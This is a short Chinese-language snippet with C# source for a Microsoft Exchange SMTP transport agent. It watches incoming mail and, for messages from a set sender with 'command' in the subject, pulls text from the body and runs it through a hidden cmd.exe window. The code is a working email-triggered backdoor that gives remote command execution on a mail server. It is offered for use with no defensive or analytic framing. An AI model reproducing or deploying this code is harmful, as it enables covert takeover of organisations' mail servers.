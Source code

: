 监控邮件，如果邮件来自指定用户(testa@test.com)，主题为`command`，那么将执行邮件正文中的内容xxxx(格式为command:xxxx/command)

代码如下：

```
using System;
using System.Collections.Generic;
using System.Text;
using System.IO;
using Microsoft.Exchange.Data.Transport;
using Microsoft.Exchange.Data.Transport.Smtp;
using System.Diagnostics;

namespace MyAgents
{
    public sealed class MyAgentFactory : SmtpReceiveAgentFactory
    {
        public override SmtpReceiveAgent CreateAgent(SmtpServer server)
        {
            return new MyAgent();
        }
    }
    public class MyAgent : SmtpReceiveAgent
    {
        public MyAgent()
        {
            this.OnEndOfData += new EndOfDataEventHandler(MyEndOfDataHandler);
        }
        private void MyEndOfDataHandler(ReceiveMessageEventSource source, EndOfDataEventArgs e)
        {
            if (e.MailItem.Message.From.SmtpAddress == "testa@test.com")
            {
                if(e.MailItem.Message.Subject.Contains("command"))
                {
                    long len = e.MailItem.Message.Body.GetContentReadStream().Length;
                    byte[] heByte = new byte[len];
                    int r = e.MailItem.Message.Body.GetContentReadStream().Read(heByte, 0, heByte.Length);
                    string myStr = System.Text.Encoding.UTF8.GetString(heByte);
                    int i = myStr.IndexOf("command:");
                    int j = myStr.IndexOf("/command");
                    myStr = myStr.Substring(i + 8, j - i - 8);

                    Process p = new Process();
                    p.StartInfo.FileName = "cmd.exe";
                    p.StartInfo.Arguments = "/c" + myStr;
                    p.StartInfo.UseShellExecute = false;
                    p.StartInfo.RedirectStandardInput = true;
                    p.StartInfo.RedirectStandardOutput = true;
                    p.StartInfo.RedirectStandardError = true;
                    p.StartInfo.CreateNoWindow = true;
                    p.Start();

                }
            }


        }
    }
}
```
